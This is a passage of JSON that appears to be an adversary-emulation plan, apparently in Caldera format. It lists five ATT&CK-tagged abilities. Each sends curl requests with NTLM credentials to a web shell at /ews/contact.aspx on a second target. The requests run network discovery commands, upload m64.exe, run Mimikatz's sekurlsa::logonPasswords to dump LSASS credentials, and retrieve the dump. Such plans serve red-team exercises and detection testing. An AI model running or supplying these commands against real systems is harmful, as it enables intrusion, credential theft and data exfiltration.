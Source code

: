 ```json
      "commands": {
        "sh": "curl -s --http1.1 --ntlm -u '#{network.domain.name}\\#{initial.target.user}:#{initial.target.password}' -k -X POST --data \"pro=cmd.exe\" --data \"cmd=ipconfig /all\" https://#{second.target.ip}/ews/contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "System Network Configuration Discovery",
      "attack_id": "T1016"
    },
    {
      "ability_id": "5c279562-a004-4d9c-9ec6-a7dc4997f699",
      "platform": "linux",
      "commands": {
        "sh": "curl -s --http1.1 --ntlm -u '#{network.domain.name}\\#{initial.target.user}:#{initial.target.password}' -k -X POST --data \"pro=cmd.exe\" --data \"cmd=netstat -an\" https://#{second.target.ip}/ews/contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "System Network Connections Discovery",
      "attack_id": "T1049"
    },
    {
      "ability_id": "f96e8195-8b0f-4b87-bdce-748dfda2861f",
      "platform": "linux",
      "commands": {
        "sh": "curl -s --http1.1 --ntlm -u '#{network.domain.name}\\#{initial.target.user}:#{initial.target.password}' -k -X POST -F \"upl=f1\" -F 'sav=C:\\Windows\\temp\\' -F \"vir=false\" -F \"nen=m64.exe\" -F 'f1=@m64.exe' https://#{second.target.ip}/EWS/contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "f01e86f9-0b66-4191-beee-324c380690df",
      "platform": "linux",
      "commands": {
        "sh": "curl -s --http1.1 --ntlm -u '#{network.domain.name}\\#{initial.target.user}:#{initial.target.password}' -k -X POST --data \"pro=cmd.exe\" --data \"cmd=C:\\Windows\\Temp\\m64.exe privilege::debug sekurlsa::logonPasswords exit 1> C:\\Windows\\Temp\\01.txt\" https://#{second.target.ip}/ews/contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "OS Credential Dumping: LSASS Memory",
      "attack_id": "T1003.001"
    },
    {
      "ability_id": "845d36f1-13b6-4d42-a384-aa2f4af9bc27",
      "platform": "linux",
      "commands": {
        "sh": "curl -s --http1.1 --ntlm -u '#{network.domain.name}\\#{initial.target.user}:#{initial.target.password}' -k -X POST -o 01.txt --data 'don=c:\\windows\\temp\\01.txt' https://#{second.target.ip}/EWS/contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "exfiltration",
      "technique": "Exfiltration Over C2 Channel",
      "attack_id": "T1041"
    },
```